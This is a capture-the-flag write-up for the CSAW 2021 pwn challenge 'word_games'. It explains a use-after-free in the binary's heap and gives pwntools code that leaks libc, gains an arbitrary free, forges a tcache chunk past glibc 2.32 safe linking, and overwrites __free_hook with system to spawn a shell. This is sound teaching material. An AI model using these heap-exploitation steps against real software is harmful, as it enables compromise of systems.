



# word_games

**Category**: pwn \
**Points**: 499 points (14 solves)

**Writeup By**: Andrew Haberlandt (ath0)

I need your help. I'm writing a paper and I need some fun words to add to it!

```
nc pwn.chal.csaw.io 5001
```

Attachments: `word_games` and `libc-2.33.so`.

## 'btw i use arch'

We won't be able to run this with the given libc until we can find a matching `ld`. @qxxxb knew of a tool called [pwninit](https://github.com/io12/pwninit) which allegedly can find the matching ld. Unfortunately, it didn't work. I googled around for ld binaries for libc 2.33 but didn't find anything.

Using [this libc finder](https://libc.rip/) we find that the libc we were given comes from a libc named "libc-2.33-5-x86_64". Cool, lets google that.



OK - so it's the latest available glibc for Arch. Let's just grab the latest binutils for arch: https://archlinux.org/packages/core/x86_64/binutils/ and I got `binutils-2.36.1-3-x86_64.pkg.tar.zst`... extract this a few times and you can find a bunch of binaries, including ld. And it worked.

I have included this `ld-2.33.so` here. After this I just used pwninit (or you can run patchelf manually) to get a version of the challenge that runs with this ld and libc.

## Overview

Now that we have it running...

```
Hi! I need your help. I'm writing a paper and I need some fun words to add to it.
Can you give me some words??
   1. Suggest word
   2. Scrap your list
   3. Hear my favorite word so far
   4. Leave
   > 1 
How long is your word? > 4
What is your word? > lolz

Nah, I don't like that word. You keep it in your list
Do you have any more words for me?
   1. Suggest word
   2. Scrap your list
   3. Hear my favorite word so far
   4. Leave
   >
```

This is a 'heap note' style challenge. We can suggest words, with a controlled size. 

After some light reversing, we find that there are two linked lists -- what I will call the "user list" and the "fun list".

Every time you submit a suggestion, it will be inserted into the user list. This involves an allocation of a controlled size, followed by the allocation of a node (size 0x18). The function at 00101315 does the linked list insert.

If you submit a suggestion containing 'fun' then it will do some additonal stuff:

```
Do you have any more words for me?
   1. Suggest word
   2. Scrap your list
   3. Hear my favorite word so far
   4. Leave
   > 1
How long is your word? > 4
What is your word? > fun1

What a fun word, I'm copying that to my list!
In fact, that's my favorite word so far!
```

After a little more reversing, we find out that it will allow 4 words in the fun list. It will copy your word (with strdup, which is just another malloc and copy) before adding it to the fun list. It is also keeping track of its 'favorite word' -- the longest word containing 'fun'. The new current favorite word is also copied with strdup.

## The bugs

The structure for tracking the favorite words and the most fun word is also in a heap chunk, allocated at `0010180a` (run once at program start). 

When we get to 4 words in the favorites list, scrap_list is called at `00101a08`. Here, the favorites structure that has the pointer to the list and the favorite word is free'd (if not NULL), and then the best word is free'd (if not NULL). I think this is a fairly common type of bug: here they are freeing the parent structure before freeing the child... so overwriting `favorites->linkedlist` actually corrupts the tcache immediately by overwriting the 'next' pointer of the free'd chunk.



But there are other uses of this malloc-d favorites global... favorites->linkedlist is chcked here at (001016e3) to determine if we still are collecting favorites... but the problem is that the favorites structure is already free'd!



There is yet another bug here, though. favorites->best_word is free'd but not zeroed in scrap_list. So we can still read from that chunk using option 3 after it has been free'd.

## Exploit

This will require some [basic knowledge of the glibc heap](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/) as well as a tool like GEF's `heap bins` command. All of this was determined experimentally (ie. looking at the heap with `heap bins` and figuring out what allocations / frees needed to be made to get things where I wanted)

Overview: My exploit creates the ability to call free() on a arbitrary pointer. I then construct a fake chunk, get it free'd into tcache, and then overwrite the next pointer so that a later malloc will return a controlled pointer -- this gives me an arbitrary write. Use this to overwrite __free_hook to call system.

### Getting a libc leak

The chunk with the favorites structure got free'd but we can still read from the 'best word', which also got freed. To get a libc leak, we want the 'best word' to get free'd into the "unsorted bin" -- I remembered from a previous challenge that free'd chunks in the unsorted bin contain a libc pointer.

```python
    # Some extra allocations
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    suggest(r, 0x300, b"Q" * 0x2ff)
    
    # This will allocate 3 times:
    # 1. reading in and stored to my list
    # 2. strdup into favorites list
    # 3. strcup as the 'best word' ** 8th allocation **
    suggest(r, 0x300, b"fun" + b"X" * 0x2fc)

    # This will free 6 of them
    scrap_my_list(r)
    
    # Some dummy allocations so that our favorites list ends up
    # where we want it later (will talk about later)
    suggest(r, 0x10, b"dummy")
    suggest(r, 0x40, b"dummy")

    suggest(r, 0x10, b"funY")
    for i in range(2):
        suggest(r, 0x60+(i), b"fun" + b"X" * i)

    # At this point, the favorites list is traversed 
    # and the remaining 0x300 allocations are free'd.
    # The 'best word' allocation is free'd last and is
    # placed in the unsorted bin.
    
    r.recvuntil("You have given me so many")

    # Read from the favorite word. This is a free'd
    # chunk, so we are reading a libc leak
    leak = u64(get_favorite(r)[:8].ljust(8, b"\x00"))
    print("leak: %s" % (hex(leak,)))
```

### Getting arbitrary free

So after we send it four 'fun' suggestions, the favorites structure will get free'd. 

Remember those 'dummy' suggestions in the above code? That's because the free'd favorites structure is corrupted by the program
when the linkedlist is set to NULL. So the dummy allocations above were to force this corrupted free'd chunk into the fastbin at position 8. Why 8? This is because when tcache runs out, it will try to move 8 things from fastbin and if one of them is corrupted, you hit this: https://github.com/bminor/glibc/blob/30891f35fa7da832b66d80d0807610df361851f3/malloc/malloc.c#L3758

(i had no idea about this, i just hit the error and looked at the source to see how to avoid, lol)

So first we will free everything (this will end with our favorites struct at position 8 of fastbin):

```python
    scrap_my_list(r)
```

So, moving forward, if we make some more allocations of size <= 0x18, we will get our favorites structure out and we can write into it!

... but what to write into it?

Recall the favorites structure contains:

- pointer to head of linked list
- favorite word

If we set the linked list pointer to anything other than NULL, the program will be willing to accept more favorites from us. And once it gets four favorites, favorite_word can be free'd -- this gives us an arbitrary free.

```python
def arbitrary_free(r, addr, garbage_ll_addr):
    # Before calling this, we have to have the favorites struct at
    # top of tcache. Thus we are overwriting the linked list pointer
    # with some writable address, and best_word ptr with 
    # address to free.
    suggest(r, 0x10, p64(garbage_ll_addr) + p64(addr))

    # Before calling this you also have to have 3 words in the fun
    # list. This will be the fourth and will trigger the favorites list
    # free-ing.
    suggest(r, 0x18, b"fun" + b"E" * 0x15)
    return
```

But what should we free?

### Heap leak and fake chunk

To get a heap leak, we can just read from the best_word without any additional work. The favorites structure is in a free'd chunk on the heap, and the favorite_word is pointing to some other free'd
chunk containing a heap pointer. So we just read from the favorite word and get a heap pointer.

Eventually, we want to get malloc() to return a pointer to free_hook. We will do this by constructing a fake chunk, free it, and then change it to point to free_hook.

```python
    # Create our fake chunk. 0x21 is the size and flags, 0xdeadbeef is garbage contents of chunk.
    suggest(r, 0x40, b"FAKECHNK" + p64(0x21)+p64(0xdeadbeef))
```

Now we have a free'd fake chunk, and thanks to our heap leak we know it's address. So we will use our arbitrary free to free our fake chunk.

```python
    fakechunk = heap_leak + (0x55555555bc70 - 0x55555555b940)
    
    # Free our fake chunk!
    arbitrary_free(r, fakechunk, garbage_ll_addr)
```

Now we want to get the 0x40 chunk (a subset of which is our fake chunk) so we can corrupt our fake chunk with a 'safely linked' pointer to free_hook.

```python
    # Now free the rest of the chunks, including the 0x40 chunk that contains our fake one
    scrap_my_list(r)

    # Now we get our FAKECHNK chunk back (this CONTAINS the forged chunk, which
    # is now in the tcache)
    #
    # We will overwrite the fwd pointer in tcache with a pointer to free_hook
    # .. but we have to do the glibc 2.32 'safe linking' thing:
    safe_ptr = (free_hook-0x10) ^ (fakechunk >> 12)
    suggest(r, 0x40, b"FAKECHNK" + p64(0) + p64(safe_ptr)) 
```

For more on safe linking: https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation


```python
    # We'll free this later to trigger system(/bin/bash) ... ;)
    suggest(r, 0x60, b"/bin/bash -i\0")
    suggest(r, 0x18, p64(0xdeadbeef))

    # This time malloc gave us our fake chunk
    suggest(r, 0x18, p64(0xdeadbeef))

    # malloc returns our pointer to free_hook, we overwrite with system
    suggest(r, 0x18, p64(0xdeadbeef)*2+p64(system))
```

And we are done:

```python
r.sendline("2") # scrap list, /bin/bash gets free'd
r.interactive()
```

See [word_games.py](https://github.com/cscosu/ctf-writeups/blob/master/2021/csaw_quals/word_games/word_games.py)
